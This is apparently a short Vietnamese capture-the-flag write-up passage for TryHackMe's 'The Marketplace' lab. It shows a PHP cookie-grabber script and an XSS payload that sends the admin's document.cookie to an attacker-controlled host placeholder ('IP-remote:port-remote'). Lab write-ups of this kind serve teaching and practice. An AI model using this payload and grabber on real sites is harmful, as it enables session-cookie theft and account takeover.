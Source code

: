![xss-payload](/assets/img/2022-02-01-THM-The-Marketplace/5.webp)

Vậy là tôi có lỗ hổng XSS ở đây. Tôi sẽ thử lấy cookie của admin bằng cách tạo 1 listing chứa XXS payload và báo cáo nó với quản trị viên. 

Đọc thêm: [Data grabber for XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss)

Đầu tiên tạo file *grapper.php*

```python
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

Tạo XSS payload

`<script>document.location='http://IP-remote:port-remote/grabber.php?c='+document.cookie</script>`
